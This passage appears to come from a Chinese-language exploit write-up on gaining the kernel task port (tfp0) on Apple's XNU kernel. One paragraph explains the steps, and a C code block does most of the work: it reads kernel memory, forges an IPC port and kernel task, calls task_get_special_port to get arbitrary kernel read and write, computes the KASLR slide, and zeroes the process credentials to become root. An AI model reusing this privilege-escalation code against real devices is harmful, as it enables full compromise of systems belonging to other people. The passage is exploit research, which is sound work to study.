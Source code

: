 ```c
    PAD_ARG(mach_port_name_t t);
    PAD_ARG(user_addr_r pid);
};
```

![pid_for_task](http://omunhj2f1.bkt.clouddn.com/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202018-07-30%20%E4%B8%8B%E5%8D%882.41.22.png)



4. tfp0

整个的流程就是找到内核的进程链表，遍历找到自己的进程的地址和`pid0`的地址。然后根据内核进程拿到`kernel task`的地址，再从`kernel task`中获取`itk_sself(kernel task's port)`，然后将`kernel task`的信息覆盖我们伪造的`ipc port`的信息，再将`fake port`指向伪造的`kernel task `，把`kernel task`的`bootstrap port`设置为真实的`kernel task`的port，然后就可以通过接口`task_get_special_port`拿到`kernel task`的`port`，从而实现任意地址读写，把我们自己的`proc`权限改写成`root`。

```c
uint64_t kern_task = 0;
kr32(kernproc+0x18, (int32_t*)&kern_task);
kr32(kernproc+0x18+4 , (int32_t*)(((uint64_t)(&kern_task)) + 4));
    
uint64_t itk_kern_sself = 0;
kr32(kern_task+0xe8, (int32_t*)&itk_kern_sself);
kr32(kern_task+0xe8+4 , (int32_t*)(((uint64_t)(&itk_kern_sself)) + 4));
    
char *faketaskport = malloc(0x1000);
char *ktaskdump = malloc(0x1000);
    
for (int i = 0; i < 0x1000/4; i++) {
    kr32(itk_kern_sself+i*4, (int32_t*)(&faketaskport[i*4]));
}

for (int i = 0; i < 0x1000/4; i++) {
    kr32(kern_task+i*4, (int32_t*)(&ktaskdump[i*4]));
}
 
//dump kernel task port
memcpy(fakeport, faketaskport, 0x1000);
memcpy(faketask, ktaskdump, 0x1000);


*(uint64_t*)(((uint64_t)fakeport) + 0x68) = faketask;
*(uint64_t*)(((uint64_t)fakeport) + 0xa0) = 0xff;

*(uint64_t*)(((uint64_t)faketask) + 0x2b8) = itk_kern_sself;

//get kernel task
task_get_special_port(foundport, 4, &tfp0);
printf("tfp0 = 0x%x\n", tfp0);

fakeport->io_bits = 0;

uint64_t slide;
slide = kernel_base - 0xFFFFFF8000200000;

printf("kernel_base=0x%llx slide=0x%llx header=0x%llx\n",kernel_base, slide,ReadAnywhere64(kernel_base));

//get root
uint64_t cred = ReadAnywhere64(myproc+0xe8);
WriteAnywhere64(cred+0x18,0);
```
